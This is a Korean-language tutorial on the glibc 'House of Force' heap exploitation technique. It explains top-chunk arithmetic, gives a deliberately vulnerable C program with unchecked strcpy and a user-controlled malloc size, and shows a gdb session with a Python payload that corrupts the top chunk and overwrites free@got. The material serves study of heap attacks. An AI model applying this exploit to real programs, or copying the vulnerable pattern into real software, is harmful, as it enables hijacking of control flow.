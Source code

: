 # **House_of_Force**

### **Top Chunk**
 
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

int main(int argc,char *argv[]){
	int size;
	char *buf1, *buf2, *buf3;
	
	buf1 = malloc(256);
	buf2 = malloc(256);
	buf3 = malloc(256);

	free(buf3);
	free(buf2);
	free(buf1);
}
```

일반적으로 Heap 영역에 할당되는 0x21000에서 malloc하여 할당된 chunk size를 뺀 값이 Top Chunk의 크기이다. 

```
0x21000 - 0x110(malloc) = 0x20ef0
0x20ef0 - 0x110(malloc) = 0x20de0
0x20de0 - 0x110(malloc) = 0x20cd0
```

Top Chunk는 재사용 가능한 Chunk가 없고, Top Chunk의 크기가 요청 크기보다 작을 경우 Top Chunk에서 나눠서 할당을 해준다.

Top Chunk에 인접한 Chunk가 free되면 병합하는데 fastbin의 경우 병합에서 제외된다.

```
0x20cd0 + 0x110(free) = 0x20de0
0x20de0 + 0x110(free) = 0x20ef0
0x20ef0 + 0x110(free) = 0x21000
```

## **Conditions**

* 공격자에 의해 Top Chunk를 덮어쓸 수 있어야 함(0xffffffffffffffff)
* 공격자에 의해 할당되는 Heap 크기를 제어할 수 있어야 함
* 공격자에 의해 할당된 Chunk 영역에 값을 저장할 수 있어야 함

## **Exploit Plan**

1. Heap 영역 생성
1. Top Chunk 변조
1. 계산된 값을 malloc 인자 값으로 전달해 메모리를 할당
    * Target Address - Allocated Chunk Header Size(16 or 8) - Top Chunk Address
1. 다시 malloc 호출
    * 공격자가 원하는 영역이 할당됨

## **Proof of Concept**

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
 
int main(int argc, char *argv[])
{
        char *buf1, *buf2, *buf3;
        if (argc != 4) return;
 
        buf1 = malloc(256);
        strcpy(buf1, argv[1]);
 
        buf2 = malloc(strtoul(argv[2], NULL, 16));
 
        buf3 = malloc(256);
        strcpy(buf3, argv[3]);
 
        free(buf3);
        free(buf2);
        free(buf1);
 
        return 0;
}
```

argv1 Overflow를 통해 Top Chunk를 0xffffffffffffffff로 변조한다.

```
gdb-peda$ heapbase
heapbase : 0x602000
gdb-peda$ x/24gx 0x602000
0x602000:	0x0000000000000000	0x0000000000000111
0x602010:	0x4141414141414141	0x4141414141414141
0x602020:	0x4141414141414141	0x4141414141414141
0x602030:	0x4141414141414141	0x4141414141414141
0x602040:	0x4141414141414141	0x4141414141414141
0x602050:	0x4141414141414141	0x4141414141414141
0x602060:	0x4141414141414141	0x4141414141414141
0x602070:	0x4141414141414141	0x4141414141414141
0x602080:	0x4141414141414141	0x4141414141414141
0x602090:	0x4141414141414141	0x4141414141414141
0x6020a0:	0x4141414141414141	0x4141414141414141
0x6020b0:	0x4141414141414141	0x4141414141414141
0x6020c0:	0x4141414141414141	0x4141414141414141
0x6020d0:	0x4141414141414141	0x4141414141414141
0x6020e0:	0x4141414141414141	0x4141414141414141
0x6020f0:	0x4141414141414141	0x4141414141414141
0x602100:	0x4141414141414141	0x4141414141414141
0x602110:	0x4141414141414141	0xffffffffffffffff <- Top Chunk

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x0
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x602110 (size : 0xfffffffffffffff8) (top is broken ?) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

"free@got(0x601018)" - "Chunk header size(0x10)" - "Top chunk address(0x602118)" - 0x8 = 0xffffeee8  
  * -0x8을 한 이유 -> Heap 영역은 0x*0 단위로 할당하기 때문

argv2에 0xffffeee8을 입력하여 해당 크기만큼 malloc을 해준다.

argv3에 BBBBBBBBCCCCCCCC를 입력하면 free@got가 변조된다.

```
gdb-peda$ r $(python -c 'print "A"*0x108+"\xff"*8') 0xffffffffffffeee8 BBBBBBBBCCCCCCCC

gdb-peda$ x/24gx 0x601018-0x10
0x601008:	0x0000000000000111	0x4242424242424242
0x601018:	0x4343434343434343	0x00007ffff7ab2900
0x601028:	0x00007ffff7a2d740	0x00007ffff7a91130
0x601038:	0x00007ffff7a483f0	0x0000000000000000
```

**References**  
<https://www.lazenca.net/display/TEC/The+House+of+Force>
<https://hackstoryadmin.tistory.com/entry/What-is-heap-part1>